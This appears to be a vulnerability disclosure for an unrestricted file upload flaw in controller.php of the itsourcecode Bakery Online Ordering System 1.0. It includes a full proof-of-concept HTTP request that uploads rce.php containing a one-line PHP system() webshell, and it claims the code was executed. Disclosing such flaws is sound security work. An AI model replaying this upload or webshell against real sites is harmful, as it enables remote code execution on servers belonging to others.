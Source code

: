 # Itsourcecode Bakery Online Ordering System Using PHP and MySQL Database 1.0 controller.php Unrestricted Upload
# NAME OF AFFECTED PRODUCT(S)
+ Bakery Online Ordering System Using PHP and MySQL Database
## Vendor Homepage
+ https://itsourcecode.com/free-projects/php-project/bakery-online-ordering-system/
# AFFECTED AND/OR FIXED VERSION(S)
## submitter
+ N3xu5Cr4ck37
## Vulnerable File
+ controller.php
## VERSION(S)
+ V1.0
## Software Link
+ https://itsourcecode.com/wp-content/uploads/2017/04/katerina.zip
# PROBLEM TYPE
## Vulnerability Type
+ File upload
## Root Cause
+ In line 36 of the controller.php file, the input obtained through $-FILES is directly used to determine the storage location of the file without verification or cleaning. The specific code snippet is as follows:
+ ![1](https://github.com/L1OudFd8cl09/CVE/assets/171104034/d0b63ebc-03b7-422b-8148-c0afe4d17a64)

## Impact
+ Attackers can exploit this vulnerability for unrestricted uploads, which may lead to file overwrite, file injection, directory traversal attacks, and denial of service attacks. Remote attacks may also result in RCE
# DESCRIPTION
+ N3xu5Cr4ck37 discovered that the file upload operation was triggered on line 36 of the 'controller.php' file and the uploaded file was received using the '$_FILES' variable. Due to the lack of appropriate input validation and cleaning, remote attackers can pass malicious payloads through this file upload feature, resulting in unrestricted file uploads, which may further lead to remote code execution (RCE).
# Vulnerability details and POC
## Payload
## 
```
POST /admin/modules/product/controller.php?action=add HTTP/1.1
Host: localhost:8101
Content-Length: 2689
Cache-Control: max-age=0
sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="98"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost:8101
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryOxlLdiA4nnlBsIAr
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.82 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:8101/admin/modules/product/index.php?view=add
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundaryOxlLdiA4nnlBsIAr
Content-Disposition: form-data; name="PRODUCTID"

10001
------WebKitFormBoundaryOxlLdiA4nnlBsIAr
Content-Disposition: form-data; name="PRODUCTNAME"

11
------WebKitFormBoundaryOxlLdiA4nnlBsIAr
Content-Disposition: form-data; name="CATEGORY"

9
------WebKitFormBoundaryOxlLdiA4nnlBsIAr
Content-Disposition: form-data; name="QTY"

2
------WebKitFormBoundaryOxlLdiA4nnlBsIAr
Content-Disposition: form-data; name="PRICE"

1
------WebKitFormBoundaryOxlLdiA4nnlBsIAr
Content-Disposition: form-data; name="image"; filename="rce.php"
Content-Type: image/jpeg


Node: Sorry, due to some encoding reasons, I am unable to use Markdown to store image data with attack payloads here. I will take a screenshot to show



<?php system("ipconfig"); ?>
------WebKitFormBoundaryOxlLdiA4nnlBsIAr
Content-Disposition: form-data; name="save"


------WebKitFormBoundaryOxlLdiA4nnlBsIAr--


```
+ ![2](https://github.com/L1OudFd8cl09/CVE/assets/171104034/4dce68d5-4f94-4f51-91aa-1dd4b261b20c)

## I successfully executed the PHP script on the terminal
+ ![3](https://github.com/L1OudFd8cl09/CVE/assets/171104034/ce6c3842-ef0a-4a96-8dc0-aae3216f80f0)

